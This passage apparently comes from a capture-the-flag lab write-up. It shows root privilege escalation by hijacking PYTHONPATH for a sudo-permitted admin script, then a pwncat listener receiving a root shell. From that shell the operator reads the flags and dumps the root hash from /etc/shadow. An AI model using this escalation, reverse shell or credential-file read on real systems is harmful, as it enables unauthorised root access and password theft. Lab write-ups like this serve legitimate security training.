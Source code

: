 ```
$ sudo PYTHONPATH=/tmp/noraj/ /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
```

On our listener:

```
$ pwncat -l 8888 -vv
INFO: Listening on :::8888 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8888 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.187:33374 (family 2/IPv4, TCP)
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/tmp/noraj
cd /root
cat root.txt
9e96b615438b09b210be126a5e7d0577
cat /home/waldo/user.txt
30a8ad9cb41261bf0f97f75094358045
cat /etc/shadow | grep root
root:$6$M5g.E5/j$AO7lZNZXLFABZld5uGh/YB3J1Va4AG9Tmw1icvm2MsDOj6B1RFloUmnA9jcj4DIsILOedBvVQg66CVjGrd.fl0:18374:0:99999:7:::
```

[nmap]:https://inventory.raw.pm/tools.html#Nmap
[ffuf]:https://inventory.raw.pm/tools.html#ffuf
[fz]:https://filezilla-project.org/
[pwncat]:https://inventory.raw.pm/tools.html#pwncat
